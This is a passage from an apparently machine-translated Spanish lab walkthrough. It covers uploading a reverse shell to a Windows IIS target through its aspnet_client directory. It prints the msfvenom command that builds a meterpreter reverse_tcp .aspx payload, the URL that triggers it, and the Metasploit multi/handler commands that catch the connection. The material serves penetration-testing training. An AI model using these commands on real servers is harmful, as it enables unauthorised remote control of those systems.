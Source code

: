 Al notar aspnet_client, nos damos cuenta de que el cuadro podrá ejecutarse `.aspx`conchas inversas. Por suerte para nosotros, `msfvenom` Puede hacer precisamente eso sin ningún problema.

#### Generando Payload
```js
p314d0@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
```

```js
p314d0@htb[/htb]$ ls

Desktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates
```

Ahora sólo nos falta navegar hasta `http://10.10.10.5/reverse_shell.aspx`, y activará el `.aspx`carga útil. Sin embargo, antes de hacer eso, debemos iniciar un detector en msfconsole para que la solicitud de conexión inversa quede atrapada dentro de él.

#### MSF: configuración de múltiples/controladores
```js
p314d0@htb[/htb]$ msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.14.5

LHOST => 10.10.14.5


msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337 
```
